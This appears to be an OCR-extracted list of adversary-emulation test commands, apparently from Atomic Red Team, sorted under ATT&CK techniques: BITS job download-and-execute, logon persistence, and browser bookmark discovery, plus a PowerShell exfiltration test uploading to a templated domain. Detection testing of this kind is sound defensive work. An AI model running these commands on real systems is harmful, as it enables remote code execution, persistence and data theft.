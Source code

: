 $url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
* powercmd.exe /c/exfiltration/egresscheck
##T1197: BITS Jobs
* Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination $env:TEMP\bitsadmin2_flag.ps1
* bitsadmin.exe /create AtomicBITS
bitsadmin.exe /addfile AtomicBITS #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline AtomicBITS #{command_path} NULL
bitsadmin.exe /resume AtomicBITS
timeout 5
bitsadmin.exe /complete AtomicBITS
* set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md /eventName:desktopimgdownldr
* Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination #{local_file}
* set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
* bitsadmin.exe /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md #{local_file}
* bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} NULL
bitsadmin.exe /resume #{bits_job_name}
timeout 5
bitsadmin.exe /complete #{bits_job_name}
* bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} %temp%\bitsadmin1_flag.ps1
* bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} C:\Windows\system32\notepad.exe NULL
bitsadmin.exe /resume #{bits_job_name}
timeout 5
bitsadmin.exe /complete #{bits_job_name}
* bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} %temp%\bitsadmin3_flag.ps1
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} NULL
bitsadmin.exe /resume #{bits_job_name}
timeout 5
bitsadmin.exe /complete #{bits_job_name}
* set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
* bitsadmin.exe
##T1547: Boot or Logon Autostart Execution
##T1037: Boot or Logon Initialization Scripts
* \Environment\UserInitMprLogonScript
* python/persistence/multi/desktopfile
* python/persistence/osx/loginhook
##T1217: Browser Bookmark Discovery
* where /R C:\Users\ Bookmarks
* find / -path "*/Google/Chrome/*/Bookmarks" -exec echo {} >> /tmp/T1217-Chrome.txt \;
cat /tmp/T1217-Chrome.txt 2>/dev/null
* find / -path "*/Firefox/Profiles/*/places.sqlite" -exec echo {} >> /tmp/T1217_Firefox.txt \;
cat /tmp/T1217_Firefox.txt 2>/dev/null
* dir /s /b %USERPROFILE%\Favorites
* find / -path "*.mozilla/firefox/*/places.sqlite" 2>/dev/null -exec echo {} >> /tmp/T1217-Firefox.txt \;
cat /tmp/T1217-Firefox.txt 2>/dev/null
* where /R C:\Users\ places.sqlite
* Get-ChildItem -Path C:\Users\ -Filter Bookmarks -Recurse -ErrorAction SilentlyContinue -Force
* cat ~/Library/Application\ Support/Google/Chrome/Default/Bookmarks
* powercmd.exe /c/collection/browser_data